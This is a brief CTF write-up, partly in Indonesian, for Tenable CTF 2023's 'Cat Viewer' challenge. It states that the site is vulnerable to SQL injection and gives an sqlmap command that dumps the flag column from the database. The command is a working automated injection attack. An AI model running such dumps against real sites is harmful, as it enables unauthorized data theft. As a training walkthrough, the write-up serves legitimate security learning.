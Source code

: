 # Cat Viewer

> I built a little web site to search through my archive of cat photos. I hid a little something extra in the database too. See if you can find it!

> https://nessus-catviewer.chals.io/

![](https://github.com/muhammadhendro/CTF-Writeups/blob/master/2023/Tenable%20CTF%202023/Cat%20Viewer/Screenshot%202023-08-17%20214538.png)

Ya website ini terdapat celah pada SQLi, langsung saja gunakan sqlmap untuk mencari flag pada database

```
sqlmap -r req.txt -T cats -C flag --dump --level 2 --risk 2 --dbms=SQLite --technique=BEUS
```
